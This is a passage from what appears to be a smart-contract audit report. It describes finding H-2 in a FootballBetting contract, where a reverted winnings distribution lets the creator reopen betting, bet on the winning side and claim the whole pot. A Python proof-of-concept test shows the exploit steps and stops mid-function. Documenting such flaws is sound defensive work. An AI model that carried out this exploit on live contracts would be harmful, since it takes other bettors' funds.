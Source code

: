 ```diff
        require(bonsaiToken.transferFrom(msg.sender, address(this), _amount), "Transfer failed");

        betInstance.totalAmountOption2 += _amount;
        betInstance.betsoption2[msg.sender] = Bet(msg.sender, _amount);
        betInstance.bettorsoption2.push(msg.sender);

        emit BetPlaced(_betId, msg.sender, _amount, 2);
    }
```

### [H-2] If `FootballBetting::distributeWinnings` is called with a winner that has no bets in its favor the contract reverts, giving anyone the opportunity to place a minimum bet on that winner and taking the entire bet winnings for himself/herself.


**Description:** `FootballBetting::distributeWinnings` has a check in place to see if the winner has bets placed in its favor, if this is not the case the function will revert, but this opens up an opportunity for an attacker or for a malicious actor to place a bet on the winning side just as it reverts and taking the entire price pot for himself or herself.

**Impact:** This exploit can be used to take the last had on a bet, although this could be mitigated by calling `Football::closeBetting` on that bet, the fact that a smart actor could use this to win more money a security risk. 

**Proof of Concept:** 

```bash
$ ape test --network ::foundry -k "test_taking_the_entire_price_for_attacker"
```

```python
def test_taking_the_entire_price_for_attacker(football_betting, bonsai, creator, users):
    bet_id = "1" 
    options = ["Team A", "Team B"]
    minimum_bet_amount = int(10e18) # 10 MOCK

    # Create a bet, with a minimum bet amount of 10 MOCK
    football_betting.createBetInstance(bet_id, options[0], options[1], minimum_bet_amount, sender=creator)

    # People can enter without any problems
    for user in users:
        bonsai.approve(football_betting, minimum_bet_amount, sender=user)
        football_betting.placeBetOnoption1(bet_id, minimum_bet_amount, sender=user)

    # Creator closes the bet
    football_betting.closeBetting(bet_id, sender=creator)
    
    # The creator declares Team B is the winner, and the transaction reverts
    with ape.reverts("revert: No bets on Team 2"):
        football_betting.distributeWinnings(bet_id, 2, sender=creator)
    
    # Creator re-opens the bet
    football_betting.openBetting(bet_id, sender=creator)
    
    # He bets on the winning team (AKA Team 2)
    bonsai.approve(football_betting, minimum_bet_amount, sender=creator)
    football_betting.placeBetOnoption2(bet_id, minimum_bet_amount, sender=creator)

    # Creator intial MOCK balance
    initial_balance = bonsai.balanceOf(creator)
    pot = bonsai.balanceOf(football_betting)
    pot = int(pot - pot*0.01)

```